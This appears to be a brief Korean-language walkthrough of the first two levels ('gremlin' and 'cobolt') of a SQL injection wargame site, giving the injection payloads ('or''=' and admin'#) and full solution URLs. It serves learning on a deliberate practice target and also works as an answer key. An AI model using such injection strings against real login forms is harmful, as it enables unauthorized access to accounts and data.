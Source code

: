 1 gremlin
====
* 기초적인 sql injection 구문
    * 목적: select id from prob_gremlin where id='admin' and pw=''or''=''을 구현하자
* id: admin
* pw: 'or''='
* 답: https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=admin&pw=%27or%27%27=%27

2 cobolt
====
* admin'#을 전달해주면, pw를 고려하지 않아도 된다.
* md5로 암호화를 고려하고 싶지 않다.
* 답: https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%23

